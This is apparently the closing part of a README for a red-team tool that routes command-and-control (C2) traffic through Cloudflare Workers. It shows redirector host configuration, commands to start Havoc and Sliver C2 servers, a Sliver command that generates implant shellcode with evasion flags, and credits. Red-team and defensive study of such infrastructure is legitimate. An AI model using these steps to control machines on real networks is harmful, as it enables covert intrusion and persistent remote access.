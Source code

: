 ```json
      "use_dev_subdomain": "true",
      "pattern": "router3.example.com"
    }
  ],
...
```

This configuration will create 4 URLs (Hosts for your C2 profile):

- `router1.mycustomdomain.com`
- `router2.anothercustomdomain.com`
- `router2.<subdomain>.workers.dev`
- `router3.<subdomain>.workers.dev`

note: domain(s) must be in the same Cloudflare account.

---

## After deployment

- Start C2 server with your modified profile.

```bash
# Havoc #
# modify profiles/havoc/demo-profile.yaotl
./havoc server --profile profiles/cf-profile.yaotl -v

# Sliver #
# modify ~/.sliver/configs/http-c2.json (add header)
profiles new --skip-symbols -b https://127.0.0.1:443 --arch amd64 profileCF
https -L 127.0.0.1 -l 443
generate --http <worker.demo.com> --skip-symbols --disable-sgn --format shellcode --arch amd64
```

- You can see the logs of your worker by selecting the worker in the Cloudflare dashboard and click on the "Logs" tab. After click on "Begin log streams". See screenshot `13.jpg` in assets folder. You can also use the `wrangler tail` command.

- You can see some demo profile in the `profiles` folder.

## Credits

- [Alfie Champion](https://twitter.com/ajpc500) for the inspiration and article.
- [Toby Schneider](https://github.com/tsndr) for [cloudflare-worker-jwt](https://github.com/tsndr/cloudflare-worker-jwt).
- [Cyb3rC3lt](https://twitter.com/Cyb3rC3lt) for the [article](https://www.redteaming.org/cftunnels.html) on Cloudflare tunnel.
- [DrorDvash](https://twitter.com/DrorDvash1) for the contribution.
- [Yack](https://yack.one).
